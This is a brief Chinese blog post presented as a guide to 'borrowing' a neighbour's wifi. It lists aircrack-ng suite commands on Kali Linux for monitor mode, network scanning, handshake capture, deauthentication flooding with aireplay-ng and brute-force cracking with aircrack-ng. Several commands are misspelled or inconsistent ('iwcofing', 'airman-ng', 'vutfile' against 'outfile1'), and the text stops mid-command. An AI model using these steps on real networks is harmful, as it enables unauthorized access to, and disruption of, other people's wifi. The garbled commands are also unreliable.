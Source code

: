 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 airmon -ng  start eth0
查找无线网络：airodump-ng eth0
网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

暴力破解：aircrack-ng outfile1.cap -w /